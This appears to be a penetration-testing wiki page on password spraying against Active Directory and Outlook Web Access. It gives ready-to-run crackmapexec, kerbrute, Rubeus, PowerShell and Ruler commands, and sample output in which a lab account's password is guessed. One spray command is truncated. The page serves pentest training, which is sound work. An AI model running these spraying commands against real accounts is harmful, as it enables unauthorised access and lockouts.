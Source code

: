 # Password Spraying

## **Password Spraying**

Once you have found several **valid usernames** you can try the most **common passwords** \(keep in mind the password policy of the environment\) with each of the discovered users.  
By **default** the **minimum** **password** **length** is **7**.

Lists of common usernames could also be useful: [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

Notice that you **could lockout some accounts if you try several wrong passwords** \(by default more than 10\).

### Get password policy

If you have some user credentials or a shell as a domain user you can get the password policy with:

* `crackmapexec <IP> -u 'user' -p 'password' --pass-pol`
* `enum4linx -u 'username' -p 'password' -P <IP>`
* `(Get-DomainPolicy)."SystemAccess" #From powerview`

### Exploitation

Using **crackmapexec:**

```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
```

Using [kerbrute](https://github.com/TarlogicSecurity/kerbrute)\(python\) - NOT RECOMMENDED SOMETIMES DOESN'T WORK

```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```

**Kerbrute** also tells if a username is valid.

Using [kerbrute](https://github.com/ropnop/kerbrute)\(Go\)

```bash
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

With the `scanner/smb/smb_login` module of Metasploit:

![](../../.gitbook/assets/image%20%28234%29.png)

With [Invoke-DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

```bash
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```

or **spray** \(read next section\).

### Lockout check

The best way is not to try with more than 5/7 passwords per account.

So you have to be very careful with password spraying because you could lockout accounts. To brute force taking this into mind, you can use _**spray:**_

```bash
apt-get install spray
spray -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPe
```

-------------------

## Outlook Web Access

There are multiples tools for password spraying outlook.

* With [MSF Owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)
* with [MSF Owa_ews_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login/)
* With [Ruler](https://github.com/sensepost/ruler) (reliable!)
* With [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) (Powershell)
* With [MailSniper](https://github.com/dafthack/MailSniper) (Powershell)

To use any of these tools, you need a user list and a password / a small list of passwords to spray. 

```sh
$ ./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose
	[x] Failed: larsson:Summer2020
	[x] Failed: cube0x0:Summer2020
	[x] Failed: a.admin:Summer2020
	[x] Failed: c.cube:Summer2020
	[+] Success: s.svensson:Summer2020
	[x] Failed: s.sven:Summer2020
	[x] Failed: j.jenny:Summer2020
	[x] Failed: t.teresa:Summer2020
	[x] Failed: t.trump:Summer2020
	[x] Failed: a.adams:Summer2020
	[x] Failed: l.larsson:Summer2020
	[x] Failed: CUBE0X0:Summer2020
	[x] Failed: A.ADMIN:Summer2020
	[x] Failed: C.CUBE:Summer2020
	[+] Success: S.SVENSSON:Summer2020
```


## References :

- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying
- https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell
- www.blackhillsinfosec.com/?p=5296
- https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying
